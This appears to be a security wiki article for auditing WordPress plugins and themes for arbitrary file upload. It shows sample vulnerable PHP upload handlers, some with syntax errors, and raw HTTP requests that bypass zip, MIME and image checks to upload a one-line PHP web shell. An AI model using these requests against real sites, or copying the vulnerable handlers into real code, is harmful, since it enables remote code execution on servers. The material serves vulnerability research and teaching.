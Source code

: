 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```

## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [file_put_contents](https://www.php.net/manual/en/function.file-put-contents)
    - [fwrite](https://www.php.net/manual/en/function.fwrite)
    - [fputs](https://www.php.net/manual/en/function.fputs.php)
    - [copy](https://www.php.net/manual/en/function.copy.php)
    - [fputcsv](https://www.php.net/manual/en/function.fputcsv.php)
    - [rename](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [WP_Filesystem_Direct::put_contents](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [WP_Filesystem_Direct::move](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [WP_Filesystem_Direct::copy](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !=== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }

}
``` 

To bypass the above check, basically we need to prepare a valid zip file and add a malicious PHP file inside of the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)
- [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)
- [finfo_file](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    
    if(in_array($file_type, get_allowed_mime_types())){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }

}
```

To bypass the above check, basically we need to prepare a valid PNG file and append a malicious PHP code on the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }

}
```

To bypass the above check, basically we need to prepare a valid image file and append a malicious PHP code on the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```